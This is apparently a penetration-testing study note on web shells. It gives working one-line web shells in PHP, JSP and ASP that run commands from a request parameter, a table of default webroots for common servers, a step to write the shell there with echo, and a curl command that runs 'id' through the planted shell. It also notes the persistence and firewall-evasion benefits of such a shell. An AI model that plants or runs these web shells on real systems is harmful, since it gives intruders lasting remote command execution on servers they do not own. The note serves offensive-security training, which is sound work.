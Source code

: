 You may run into some implementations that randomize filenames on upload.

### Writing a Web Shell

**Code: php**

```php
<?php system($_REQUEST["cmd"]); ?>
```

 [WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

**Code: jsp**

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**Code: asp**

```asp
<% eval request("cmd") %>
```

### Uploading a Web Shell

Now we have to write one of the web shells above in the web root

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\    |
| `XAMPP`    | C:\xampp\htdocs\       |

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. 

#### Bypassing File Type restrictions



### Accessing the Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. 

- We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

- ```bash
  curl http://SERVER_IP:PORT/shell.php?cmd=id
  ```



Benefits:

- It would bypass any firewall  restriction in place, as it will not open a new connection on a port 
- If the compromised host is rebooted, the web shell would still be in place,  and we can access it and get command execution without exploiting the  remote host again.

Contra:

- Not as interactive

## Payloads

  ```